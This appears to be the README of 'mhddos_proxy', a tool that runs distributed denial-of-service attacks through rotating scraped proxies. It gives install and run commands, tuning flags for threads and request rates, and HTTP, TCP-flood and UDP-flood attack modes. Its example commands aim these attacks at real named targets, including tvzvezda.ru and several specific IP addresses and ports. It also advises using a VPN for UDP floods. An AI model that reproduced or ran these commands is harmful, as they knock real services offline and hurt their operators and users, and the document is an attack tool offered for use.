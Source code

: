 ## Setup

### Docker

    docker pull portholeascend/mhddos_proxy:latest

### Python

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install -r requirements.txt

## Running

### Docker

    docker run -it portholeascend/mhddos_proxy:latest COMMAND

### Python

    python3 runner.py COMMAND

## Usage

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 100      Number of threads per CPU core (default is 100)
      -p, --period 300       How often to update the proxies (default is 300)
      --proxy-timeout 3      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 3)

      --rpc 100              How many requests to send on a single proxy connection (default is 100)
      --udp-threads 1        Threads to run per UDP target (default is 1)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, STRESS, BOT, DOWNLOADER)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD  

For UDP targets, attack method is UDP FLOOD.   
**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

    docker run -it portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL  - `https://tvzvezda.ru` or `http://tvzvezda.ru` 
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT  - `tcp://194.54.14.131:4477`
- UDP by IP:PORT  - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 10 minutes)

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality)

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

Specific attack method

    python3 runner.py https://tvzvezda.ru --http-methods GET

# TODO

- [ ] Docker image
